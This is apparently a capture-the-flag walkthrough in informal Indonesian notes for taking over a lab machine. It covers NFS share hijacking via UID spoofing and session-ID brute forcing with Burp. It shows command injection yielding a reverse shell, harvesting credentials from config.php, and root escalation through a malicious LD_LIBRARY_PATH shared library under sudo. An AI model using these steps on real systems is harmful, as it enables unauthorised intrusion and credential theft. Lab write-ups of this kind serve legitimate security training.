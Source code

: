 # boot:
1. scan ftp ssh http nfs kebuka 
2. showmount -e ip -> catet path yg kebuka
3. mkdir hijack_mount -> sudo mount -t nfs ip:dir_yg_kebuka /hijack_mount
4. bakal error di masukin ls -la aja -> denied gitu
5. sudo useradd sebus -> sudo passwd sebus -> vim /etc/passwd -> ganti user baru id jadi 1003 
6. su sebus -> masuk situ dah cat aja cred nya
7. mount | grep nfs -> sudo umount ip:path_nfs -> cek lagi
8. sudo userdel namanya -> cat /etc/passwd | grep namanya
9. masuk ftp -> ls -la -> get .filenya 
10. ada wordlist passwd keknya -> target sih ke dashboard admin yg denied -> signup dulu aja -> ke admin -> intruder phpsessionID nya belakang %6%6 ok
11. kasih rule di intruder burp nya -> prefix: "admin:", hash: md5, encode: base64
12. susah bjir -> session id udah masuk masukin ke repeater aja biar enak -> coba ketik ftp di inputnya
13. ftp && bash -c 'revshell' -> encode aja ctrl + u semuanya -> pastiin sess id nya admin -> nc masuk shell
14. di config.php coba cat -> ada cred disitu -> bisa buka mysql atau su aja lgsg ke usernya
15. klaim user flag -> sudo -l 

# pe: 
1. buat exp nya -> wget aja 
2. gcc -o /tmp/libcrypt.so.1 -shared -fPIC exp.c
3. sudo LD_LIBRARY_PATH=/tmp [sudo -l nya]  /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
